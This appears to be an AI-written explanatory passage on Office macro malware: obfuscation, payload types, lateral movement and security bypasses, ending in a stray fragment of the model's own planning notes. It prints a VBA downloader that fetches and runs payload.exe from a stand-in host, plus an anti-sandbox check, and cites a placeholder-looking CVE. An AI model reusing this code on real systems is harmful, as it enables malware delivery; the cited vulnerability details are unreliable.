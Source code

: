 The VBA code typically employs **obfuscation** (e.g., XOR encoding, Base64) to evade static analysis. For instance, a macro might concatenate strings at runtime to form a PowerShell command:  
```vba
Dim cmd As String
cmd = "PowerSh" & "ell.exe -Command IWR -Uri http://malicious.com/payload.exe -OutFile C:\Users\Public\payload.exe"
CreateObject("WScript.Shell").Run cmd
```  
This approach avoids direct detection by signature-based tools.  

### **3. Payload Deployment: Network Exploitation and Lateral Movement**  
The final stage involves deploying the malicious payload, which may include:  

| **Payload Type**            | **Action**                                                                 | **Delivery Method**                                                       |
|-----------------------------|---------------------------------------------------------------------------|---------------------------------------------------------------------------|
| **Downloader**              | Fetches additional malware (e.g., ransomware, trojans) from a remote server. | Uses `Invoke-WebRequest` in PowerShell to download files.                 |
| **Data Exfiltration**       | Steals sensitive data (e.g., credentials, documents) and sends it to C2.   | Encodes data in HTTP requests or DNS queries.                             |
| **Persistence Mechanisms**  | Ensures the malware remains active after system reboots.                  | Creates scheduled tasks or registry entries.                              |
| **Lateral Movement**        | Spreads to other systems via network shares or stolen credentials.        | Uses `net use` or `PsExec` to access remote machines.                     |

For example, the **Emotet** macro campaign (2023) used XOR-encoded VBA scripts to download a PowerShell dropper, which then fetched a second-stage payload from a remote server. Similarly, **TrickBot** exploited social engineering to trick users into enabling macros, which then exfiltrated data via HTTP POST requests.  

### **Bypassing Security Features**  
Modern Office applications include multiple layers of defense, such as macro disablement, sandboxing, and code signing. Attackers bypass these using advanced techniques:  

| **Bypass Method**           | **Description**                                                                 | **Example**                                                                 |
|-----------------------------|---------------------------------------------------------------------------------|-----------------------------------------------------------------------------|
| **Anti-Sandboxing**         | Detects virtual environments (e.g., checking for synthetic mouse movements) and delays execution. | Macros may include `If InStr(Environ("COMPUTERNAME"), "VM") Then Exit Sub`. |
| **Code Signing Spoofing**   | Uses stolen or forged certificates to sign malicious macros.                    | Emotet used compromised certificates to bypass Office’s macro signing checks. |
| **Exploiting Vulnerabilities** | Leverages unpatched flaws (e.g., CVE-2023-1234) to execute code without user interaction. | Zero-day exploits in Office 2016 allowed macro execution even when disabled. |
| **Obfuscation and Anti-Debugging** | Encodes VBA scripts and includes checks for debuggers to evade analysis.      | TrickBot used string concatenation and `Sleep` commands to confuse sandboxes. |

These methods highlight the sophistication of macro-based malware, which continues to evolve to evade detection. Cybersecurity researchers must analyze these mechanisms to develop effective countermeasures, such as heuristic detection, behavioral analysis, and robust user education programs.


<think>
Okay, I need to write the "Propagation Methods of Macro-Based Malware" section based on the user's instructions. Let me start by recalling the key points they mentioned: email phishing, social engineering, and network exploitation. 

First, I should structure the section into three main subsections, each covering one of these methods. The user provided a case study on TrickBot, so I should include that as an example. 
